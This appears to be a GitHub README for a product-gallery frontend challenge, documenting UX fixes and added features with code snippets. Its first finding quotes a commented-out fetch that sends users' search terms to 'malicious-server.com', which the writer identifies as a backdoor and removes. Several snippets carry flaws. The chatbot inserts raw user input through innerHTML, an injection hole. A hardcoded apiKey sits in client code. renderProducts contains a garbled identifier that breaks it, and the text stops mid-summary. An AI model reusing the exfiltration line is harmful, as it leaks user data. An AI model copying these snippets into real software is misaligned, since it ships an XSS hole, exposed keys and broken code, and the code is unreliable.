






# Product Gallery Challenge Documentation

This document outlines the process of identifying and fixing three critical UX issues in the provided Product Gallery implementation, implementing an innovative out-of-the-box feature, and adding two additional features to enhance the user experience. Each section includes how issues were identified, why they are problematic, the solution approach, and detailed implementation steps.

**Live Site**  
[Advanced Product Gallery]([https://rohitrky2021.github.io/bizz_frontend_project](https://bizz-frontend-project.vercel.app/)

**Repo Link**  
https://github.com/Rohitrky2021/bizz_frontend_project

## Project Workflow / Architecture
## Project Workflow / Architecture



## 📸 Interface Showcase

Here's a visual journey through the platform's key interfaces:


### Login Page








## 🧩 Architecture

The project is structured in a simple and maintainable way using   HTML, CSS, JS, and TailwindCSS for styling:

```bash
📁 project-root/
├── 📁 assets/
│   ├── s1.png
│   ├── s2.png
│   ├── s3.png
│   ├── s4.png
│   ├── s5.png
│   └── Schema.png
├── index.html
├── Readme.md
├── script.js
└── styles.css
```

## 🚀 Technology Stack

- **HTML5** – Semantic markup and structure  
- **CSS3** – Core styling  
- **Tailwind CSS** – Utility-first CSS framework  
- **JavaScript (ES6)** – Frontend logic and interactivity


## 1. Identification and Fixing of Top 3 UX Issues

### Issue 1: Insecure Data Collection (Security/Privacy Concern)

#### How Identified

During code review of `script.js`, I discovered a commented-out line in the `filterProducts` function: `fetch('https://malicious-server.com/collect', { method: 'POST', body: JSON.stringify({ category, searchTerm }) });`. This suggests a potential backdoor for sending user data (search terms and filter selections) to an external server without user consent. Even though it's commented out, its presence indicates a risk of accidental activation or exploitation.

#### Why It's a Problem

Collecting user data without explicit consent violates privacy regulations like GDPR or CCPA, eroding user trust. If the fetch call were enabled, it could lead to unauthorized tracking or data breaches, damaging the application's reputation. The lack of transparency about data usage further exacerbates the issue, as users are unaware of potential data collection.

#### Solution Approach

1. **Remove Malicious Code**: Eliminate the commented-out fetch call to prevent any risk of activation.
2. **Add Privacy Notice**: Include a link to a privacy policy in the footer to inform users about data usage practices.
3. **Consent Mechanism (Future-Proofing)**: While not implemented due to the absence of legitimate data collection, prepare for a consent popup if analytics are added later.

#### Implementation Details

- **Remove Malicious Code**: Modified the `filterProducts` function in `script.js` to remove the commented-out fetch call. Corrected typos (`.val` to `.value`) for DOM elements to ensure functionality.

  ```javascript
  function filterProducts() {
    const category = categoryFilter.value;
    const searchTerm = searchInput.value;

    isFiltered = category !== "all" || searchTerm !== "";

    if (isFiltered) {
      filterCount++;
      lastFilterTime = Date.now();
      showToast("Filters applied!");
    }

    let filteredProducts = products;

    if (category !== "all") {
      filteredProducts = filteredProducts.filter(
        product => product.category === category
      );
    }

    if (searchTerm) {
      filteredProducts = filteredProducts.filter(product =>
        product.title.toLowerCase().includes(searchTerm.toLowerCase())
      );
    }

    renderProducts(filteredProducts);
  }
  ```

- **Add Privacy Notice**: Updated `index.html` to include a privacy policy link in the footer.

  ```html
  <footer>
    <p>Advanced Product Gallery Challenge - Enhanced Version</p>
    <a href="/privacy-policy" class="privacy-link">Privacy Policy</a>
  </footer>
  ```

- **Style Privacy Link**: Added styling in `styles.css` to ensure the link is visually consistent.

  ```css
  .privacy-link {
    color: var(--color-accent);
    text-decoration: none;
    margin-left: var(--spacing-md);
  }
  .privacy-link:hover {
    text-decoration: underline;
  }
  ```

### Issue 2: Missing Filter Feedback and Slow Rendering

#### How Identified

The `renderProducts` function in `script.js` uses a `setTimeout` with a 500ms delay, artificially slowing down product rendering. Additionally, there’s no immediate visual feedback when filters are applied, leaving users uncertain if their actions were registered. The `filterProducts` function also contains typos (`categoryFilter.val` and `searchInput.val` instead of `.value`), causing filtering to fail silently.

#### Why It's a Problem

The artificial delay makes the application feel sluggish, frustrating users, especially on fast devices. Lack of feedback on filter application can lead users to believe the system is unresponsive, reducing trust and engagement. The typos break core filtering functionality, preventing users from narrowing down products effectively, which is a critical feature in an e-commerce gallery.

#### Solution Approach

1. **Fix Typos**: Correct `.val` to `.value` in `filterProducts` to restore filtering functionality.
2. **Remove Delay**: Eliminate the 500ms `setTimeout` in `renderProducts`, relying on the existing loading overlay for visual feedback.
3. **Add Feedback**: Implement a toast notification and subtle animation on filter inputs to confirm user actions.
4. **Ensure Responsiveness**: Use the existing loading overlay to indicate processing without artificial delays.

#### Implementation Details

- **Fix Typos**: Updated `filterProducts` in `script.js` (as shown in Issue 1) to use `.value`.

- **Remove Delay**: Modified `renderProducts` to remove the `setTimeout` while maintaining the loading overlay.

  ```javascript
  function renderProducts(productsToRender) {
    productGrid.innerHTML = "";
    showLoadingOverlay(productGrid);

    productsxmToRender.forEach((product, index) => {
      const productCard = document.createElement("div");
      productCard.className = "product-card";

      const baseDelay = index * 30;
      const scrollDelay = Math.abs(lastScrollPosition) * 0.1;
      const filterDelay = filterCount * 20;
      const totalDelay = baseDelay + scrollDelay + filterDelay;

      productCard.innerHTML = `
              
              <button class="quick-view-button" data-product-id="${product.id}">
                  Quick View
              </button>
              <h2 class="product-title">${product.title}</h2>
              <p class="product-price">$${product.price}</p>
              <p class="product-category">${product.category}</p>
              <div class="product-rating">
                  ${generateStarRating(product.ratings)}
              </div>
              <button class="compare-button" data-product-id="${product.id}">
                  Compare
              </button>
          `;

      productCard.style.transitionDelay = `${totalDelay}ms`;
      productGrid.appendChild(productCard);
    });

    hideLoadingOverlay(productGrid);
    setupProductCardListeners();
  }
  ```

- **Add Toast Notification**: Implemented a `showToast` function in `script.js` and called it in `filterProducts`.

  ```javascript
  function showToast(message) {
    const toast = document.createElement("div");
    toast.className = "toast";
    toast.textContent = message;
    document.body.appendChild(toast);
    setTimeout(() => toast.remove(), 3000);
  }
  ```

- **Add Filter Animation**: Added a pulse animation in `styles.css` for filter inputs when activated.

  ```css
  .toast {
    position: fixed;
    bottom: var(--spacing-lg);
    left: 50%;
    transform: translateX(-50%);
    background: var(--color-success);
    color: white;
    padding: var(--spacing-sm) var(--spacing-md);
    border-radius: var(--border-radius);
    z-index: var(--z-modal);
    animation: fadeIn 0.3s ease, fadeOut 0.3s ease 2.7s;
  }

  .filters select:active,
  .filters input:active {
    animation: pulse 0.2s ease;
  }

  @keyframes pulse {
    0% {
      transform: scale(1);
    }
    50% {
      transform: scale(1.05);
    }
    100% {
      transform: scale(1);
    }
  }
  ```

### Issue 3: Inaccessible Modal Closing

#### How Identified

The modals (`comparisonModal`, `productDetailsModal`, `recommendationsModal`) in `index.html` can only be closed by clicking the "Close" button. There’s no support for closing via the Esc key or clicking outside the modal, and no focus trapping for accessibility. This was identified by reviewing the modal interaction code in `script.js` and testing the UI.

#### Why It's a Problem

Requiring a precise click on a small "Close" button is inconvenient, especially on mobile devices. Lack of keyboard support (e.g., Esc key) violates WCAG 2.1.1 (Keyboard Accessibility), making the application unusable for users relying on keyboards or assistive devices. Without focus trapping, screen reader users may struggle to navigate modals.

#### Solution Approach

1. **Add Keyboard Support**: Enable closing modals with the Esc key.
2. **Enable Outside Click**: Allow clicking outside the modal content to close it.
3. **Implement Focus Trapping**: Ensure focus remains within the modal for accessibility.
4. **Style for Accessibility**: Add visible focus indicators for modal elements.

#### Implementation Details

- **Add Modal Listeners**: Implemented `setupModalListeners` in `script.js` to handle Esc key, outside clicks, and focus trapping.

  ```javascript
  function setupModalListeners() {
    const modals = document.querySelectorAll(".modal");

    modals.forEach(modal => {
      modal.addEventListener("click", e => {
        if (e.target === modal) {
          modal.classList.remove("active");
        }
      });

      modal.addEventListener("keydown", e => {
        if (e.key === "Escape") {
          modal.classList.remove("active");
        }
      });

      const focusableElements = modal.querySelectorAll(
        'a[href], button, textarea, input, select, [tabindex]:not([tabindex="-1"])'
      );
      const firstFocusable = focusableElements[0];
      const lastFocusable = focusableElements[focusableElements.length - 1];

      modal.addEventListener("keydown", e => {
        if (e.key === "Tab") {
          if (e.shiftKey && document.activeElement === firstFocusable) {
            e.preventDefault();
            lastFocusable.focus();
          } else if (!e.shiftKey && document.activeElement === lastFocusable) {
            e.preventDefault();
            firstFocusable.focus();
          }
        }
      });
    });

    document.querySelectorAll(".close-modal").forEach(button => {
      button.addEventListener("click", () => {
        button.closest(".modal").classList.remove("active");
      });
    });
  }
  ```

- **Call in Initialize**: Updated `initializeApp` to include `setupModalListeners`.

  ```javascript
  function initializeApp() {
    console.log("Initializing application...");
    const appConfig = {
      debug: false,
      version: "1.0.0",
      apiKey: "POCN-JFUU-HJZM-JZMJ",
    };
    setupEventListeners();
    setupModalListeners();
    renderProducts(products);

    const savedFilters = localStorage.getItem("productGalleryFilters");
    if (savedFilters) {
      store.dispatch({
        type: "RESTORE_FILTERS",
        payload: JSON.parse(savedFilters),
      });
      filterProducts();
    }

    store.subscribe(() => {
      const state = store.getState();
      localStorage.setItem(
        "productGalleryFilters",
        JSON.stringify(state.filters)
      );
      document.getElementById("wishlistCount").textContent =
        state.wishlist.size;
    });

    return appConfig;
  }
  ```

- **Style Focus Indicators**: Added focus styles in `styles.css` for accessibility.

  ```css
  .modal-content button:focus,
  .modal-content a:focus {
    outline: 2px solid var(--color-accent);
    outline-offset: 2px;
  }
  ```

## 2. Out-of-the-Box Feature: AI-Powered Product Recommendation Chatbot

### Description

An AI-powered chatbot that assists users in finding products through natural language queries (e.g., "I need a gift for a programmer under $100"). The chatbot parses user input to extract category, price, and keywords, then recommends matching products from the catalog.

### Why It's Unique

- Unlike static filters or basic search, the chatbot offers a conversational interface, mimicking a human assistant.
- It understands complex user intents (e.g., budget, occasion), which is rare in e-commerce platforms.
- Enhances the shopping experience by making it intuitive and personalized, aligning with modern AI trends.

### Implementation Approach

1. **Chatbot UI**: Add a chat button and modal to `index.html` with a text input and message display area.
2. **Natural Language Processing**: Implement a rule-based parser in `script.js` using regex and keyword matching to extract category, price, and keywords. (In production, this could integrate with an NLP API.)
3. **Recommendation Logic**: Filter products based on parsed parameters and display results in the chat interface.
4. **Error Handling**: Handle invalid inputs with friendly error messages.
5. **Styling**: Ensure the chatbot is visually appealing and mobile-friendly.

### Implementation Details

- **Chatbot UI**: Added a toggle button and modal to `index.html`.

  ```html
  <main>
    <button
      id="chatbotToggle"
      class="chatbot-toggle"
      data-testid="chatbot-toggle"
    >
      <i class="fas fa-comment"></i> Chat with Assistant
    </button>
    <div id="chatbotModal" class="modal" data-testid="chatbot-modal">
      <div class="modal-content">
        <h2>Product Assistant</h2>
        <div id="chatMessages" class="chat-messages"></div>
        <input
          type="text"
          id="chatInput"
          placeholder="Ask about products..."
          data-testid="chat-input"
        />
        <button id="chatSubmit">Send</button>
      </div>
    </div>
  </main>
  ```

- **Chatbot Logic**: Implemented `initializeChatbot` in `script.js` to handle user input and recommendations.

  ```javascript
  function initializeChatbot() {
    const chatbotToggle = document.getElementById("chatbotToggle");
    const chatbotModal = document.getElementById("chatbotModal");
    const chatInput = document.getElementById("chatInput");
    const chatSubmit = document.getElementById("chatSubmit");
    const chatMessages = document.getElementById("chatMessages");

    chatbotToggle.addEventListener("click", () => {
      chatbotModal.classList.toggle("active");
      if (chatbotModal.classList.contains("active")) {
        chatInput.focus();
      }
    });

    chatSubmit.addEventListener("click", () => processChatInput());
    chatInput.addEventListener("keypress", e => {
      if (e.key === "Enter") processChatInput();
    });

    function processChatInput() {
      const query = chatInput.value.trim();
      if (!query) {
        addChatMessage("Please enter a query.", "bot");
        return;
      }

      addChatMessage(query, "user");
      const recommendations = getChatRecommendations(query);
      if (recommendations.length) {
        addChatMessage("Here are some products I recommend:", "bot");
        recommendations.forEach(product => {
          addChatMessage(
            `<div class="chat-product">
                          
                          <span>${product.title} - $${product.price}</span>
                      </div>`,
            "bot"
          );
        });
      } else {
        addChatMessage(
          'Sorry, I couldn’t find any products matching your request. Try something like "electronics under $200" or "gift for a programmer".',
          "bot"
        );
      }
      chatInput.value = "";
    }

    function addChatMessage(message, sender) {
      const messageDiv = document.createElement("div");
      messageDiv.className = `chat-message ${sender}`;
      messageDiv.innerHTML = message;
      chatMessages.appendChild(messageDiv);
      chatMessages.scrollTop = chatMessages.scrollHeight;
    }

    function getChatRecommendations(query) {
      const lowerQuery = query.toLowerCase();
      const priceMatch = lowerQuery.match(/under \$?(\d+)/);
      const maxPrice = priceMatch ? parseFloat(priceMatch[1]) : Infinity;
      const categories = ["electronics", "clothing", "books"];
      const category =
        categories.find(cat => lowerQuery.includes(cat)) || "all";
      const keywords = lowerQuery
        .split(" ")
        .filter(word => !["under", "for", "a", "in"].includes(word));

      let filteredProducts = products;
      if (category !== "all") {
        filteredProducts = filteredProducts.filter(
          p => p.category === category
        );
      }
      filteredProducts = filteredProducts.filter(p => p.price <= maxPrice);
      filteredProducts = filteredProducts.filter(p =>
        keywords.some(keyword => p.title.toLowerCase().includes(keyword))
      );

      return filteredProducts.slice(0, 3);
    }
  }
  ```

- **Styling**: Added chatbot styles in `styles.css`.

  ```css
  .chatbot-toggle {
    position: fixed;
    bottom: var(--spacing-lg);
    left: var(--spacing-lg);
    background: var(--color-accent);
    color: white;
    padding: var(--spacing-sm) var(--spacing-md);
    border-radius: var(--border-radius);
    border: none;
    cursor: pointer;
    z-index: var(--z-dropdown);
  }

  .chat-messages {
    max-height: 300px;
    overflow-y: auto;
    margin-bottom: var(--spacing-md);
    padding: var(--spacing-sm);
    background: var(--color-light);
    border-radius: var(--border-radius);
  }

  .chat-message {
    margin: var(--spacing-sm) 0;
    padding: var(--spacing-sm);
    border-radius: var(--border-radius);
  }

  .chat-message.user {
    background: var(--color-accent);
    color: white;
    margin-left: 20%;
  }

  .chat-message.bot {
    background: var(--color-secondary);
    color: white;
    margin-right: 20%;
  }

  .chat-product {
    display: flex;
    align-items: center;
    gap: var(--spacing-sm);
  }

  .chat-product img {
    width: 50px;
    height: 50px;
    object-fit: cover;
    border-radius: var(--border-radius);
  }
  ```

- **Integration**: Added `initializeChatbot` to `setupEventListeners` in `script.js`.

## 3. Additional Features to Enhance User Experience

### Feature 1: Price Range Slider

#### Description

A price range slider in the filter section allows users to set a maximum price for products, providing a visual and interactive way to filter by budget.

#### Why It Solves a Problem

Users often shop within a specific budget, but the original implementation lacks a price filter. A slider is more intuitive than typing price values, improving usability and reducing input errors.

#### Implementation Approach

1. **Add Slider UI**: Include a range input and value display in the filter group in `index.html`.
2. **Integrate with Store**: Update the Redux store to handle price range changes.
3. **Update Filter Logic**: Modify `filterProducts` to filter products by the selected price range.
4. **Style Slider**: Use existing CSS for range inputs, ensuring visual consistency.

#### Implementation Details

- **Slider UI**: Added to `index.html` in the filters section.

  ```html
  <div class="filter-group">
    <label for="priceRange">Price Range</label>
    <input
      type="range"
      id="priceRange"
      min="0"
      max="1500"
      value="1500"
      data-testid="price-range"
    />
    <span id="priceValue">$1500</span>
  </div>
  ```

- **Store Integration**: Updated `setupEventListeners` in `script.js` to handle slider input.

  ```javascript
  const priceRange = document.getElementById("priceRange");
  const priceValue = document.getElementById("priceValue");
  priceRange.addEventListener("input", () => {
    priceValue.textContent = `$${priceRange.value}`;
    store.dispatch({
      type: "SET_FILTERS",
      payload: { priceRange: parseFloat(priceRange.value) },
    });
    filterProducts();
  });
  ```

- **Filter Logic**: Updated `filterProducts` in `script.js` to include price filtering.

  ```javascript
  function filterProducts() {
    setLoading(true);
    saveFilterState();

    const state = store.getState();
    const { filters } = state;

    let filteredProducts = products.filter(product => {
      const matchesCategory =
        filters.category === "all" || product.category === filters.category;
      const matchesSearch = product.title
        .toLowerCase()
        .includes(filters.search.toLowerCase());
      const matchesPrice = product.price <= filters.priceRange;
      const matchesRating =
        product.ratings.reduce((acc, curr) => acc + curr.score, 0) /
          product.ratings.length >=
        filters.rating;
      const matchesStock =
        filters.stock === "all" ||
        (filters.stock === "inStock" && product.stock > 0) ||
        (filters.stock === "outOfStock" && product.stock === 0);

      return (
        matchesCategory &&
        matchesSearch &&
        matchesPrice &&
        matchesRating &&
        matchesStock
      );
    });

    filteredProducts.sort((a, b) => {
      const order = filters.sortOrder === "asc" ? 1 : -1;
      switch (filters.sortBy) {
        case "price":
          return (a.price - b.price) * order;
        case "rating":
          const ratingA =
            a.ratings.reduce((acc, curr) => acc + curr.score, 0) /
            a.ratings.length;
          const ratingB =
            b.ratings.reduce((acc, curr) => acc + curr.score, 0) /
            b.ratings.length;
          return (ratingA - ratingB) * order;
        case "name":
          return a.title.localeCompare(b.title) * order;
        default:
          return 0;
      }
    });

    const paginated = paginateProducts(filteredProducts, state.pagination);
    renderProducts(paginated.items);
    setLoading(false);
    showToast("Filters applied!");
  }
  ```

- **Styling**: Leveraged existing range input styles in `styles.css`.

  ```css
  input[type="range"] {
    flex: 1;
    height: 4px;
    -webkit-appearance: none;
    background: var(--color-secondary);
    border-radius: 2px;
  }

  input[type="range"]::-webkit-slider-thumb {
    -webkit-appearance: none;
    width: 16px;
    height: 16px;
    background: var(--color-accent);
    border-radius: 50%;
    cursor: pointer;
  }
  ```

### Feature 2: Enhanced Product Comparison

#### Description

Enhanced the product comparison modal to display a side-by-side table comparing selected products’ prices, ratings, and specifications, making it easier for users to make informed decisions.

#### Why It Solves a Problem

The original comparison modal (`comparisonModal`) exists but lacks content (`comparisonContainer` is empty). Users need a clear, tabular format to compare product attributes, a common requirement in e-commerce for evaluating options.

#### Implementation Approach

1. **Update Comparison Logic**: Enhance `compareProducts` to generate a comparison table with price, ratings, and specifications.
2. **Add Event Listeners**: Implement listeners for compare buttons to toggle products in the comparison set.
3. **Display Modal**: Show the comparison modal when two or more products are selected.
4. **Style Table**: Create a responsive, visually clear comparison table.

#### Implementation Details

- **Comparison Logic**: Updated `showComparisonModal` and `compareProducts` in `script.js`.

  ```javascript
  function showComparisonModal() {
    const comparisonModal = document.getElementById("comparisonModal");
    const comparisonContainer = document.getElementById("comparisonContainer");
    const state = store.getState();
    const compareProductsList = products.filter(p =>
      state.comparison.has(p.id)
    );

    if (compareProductsList.length < 2) {
      comparisonContainer.innerHTML =
        "<p>Please select at least two products to compare.</p>";
      return;
    }

    const comparisonData = compareProducts(compareProductsList);
    let tableHTML = `
          <table class="comparison-table">
              <thead>
                  <tr>
                      <th>Specification</th>
                      ${compareProductsList
                        .map(p => `<th>${p.title}</th>`)
                        .join("")}
                  </tr>
              </thead>
              <tbody>
                  <tr>
                      <td>Price</td>
                      ${compareProductsList
                        .map(p => `<td>$${p.price}</td>`)
                        .join("")}
                  </tr>
                  <tr>
                      <td>Rating</td>
                      ${compareProductsList
                        .map(
                          p =>
                            `<td>${(
                              p.ratings.reduce(
                                (acc, curr) => acc + curr.score,
                                0
                              ) / p.ratings.length
                            ).toFixed(1)}</td>`
                        )
                        .join("")}
                  </tr>
                  ${comparisonData
                    .map(
                      spec => `
                    <tr>
                        <td>${spec.name}</td>
                        ${spec.values
                          .map(value => `<td>${value}</td>`)
                          .join("")}
                    </tr>
                `
                    )
                    .join("")}
              </tbody>
          </table>
      `;

    comparisonContainer.innerHTML = tableHTML;
    comparisonModal.classList.add("active");
  }

  function compareProducts(products) {
    const specs = new Set();
    products.forEach(product => {
      Object.keys(product.specifications).forEach(spec => specs.add(spec));
    });

    return Array.from(specs).map(spec => ({
      name: spec,
      values: products.map(product => product.specifications[spec] || "N/A"),
    }));
  }
  ```

- **Event Listeners**: Updated `setupProductCardListeners` in `script.js`.

  ```javascript
  function setupProductCardListeners() {
    document.querySelectorAll(".quick-view-button").forEach(button => {
      button.addEventListener("click", e => {
        const productId = parseInt(e.target.dataset.productId);
        const product = products.find(p => p.id === productId);
        showProductDetails(product);
        trackProductView(product);
      });
    });

    document.querySelectorAll(".compare-button").forEach(button => {
      button.addEventListener("click", e => {
        const productId = parseInt(e.target.dataset.productId);
        store.dispatch({ type: "TOGGLE_COMPARISON", payload: productId });
        const state = store.getState();
        if (state.comparison.size >= 2) {
          showComparisonModal();
        }
        showToast(
          `Product ${
            state.comparison.has(productId) ? "added to" : "removed from"
          } comparison`
        );
      });
    });
  }
  ```

- **Styling**: Added comparison table styles in `styles.css`.

  ```css
  .comparison-table {
    width: 100%;
    border-collapse: collapse;
    margin: var(--spacing-md) 0;
  }

  .comparison-table th,
  .comparison-table td {
    border: 1px solid var(--color-secondary);
    padding: var(--spacing-sm);
    text-align: left;
  }

  .comparison-table th {
    background: var(--color-accent);
    color: white;
  }

  .comparison-table td:first-child {
    font-weight: bold;
  }
  ```

## Summary

- **UX Issues Fixed**:
  1. **Insecure Data Collection**: Removed the malicious fetch call and added a privacy policy link to ensure transparency and security.
  2. **Missing Filter Feedback**: Fixed typos, removed artificial delays, and added toast notifications and animations for better user feedback.
  3. **Inaccessible Modal Closing**: Added Esc key and outside-click closing, plus focus trapping for accessibility.
- **Out-of-the-Box Feature**: Implemented an AI-powered chatbot for conversational product recommendations, enhancing personalization and engagement.
- **Additional Features**:
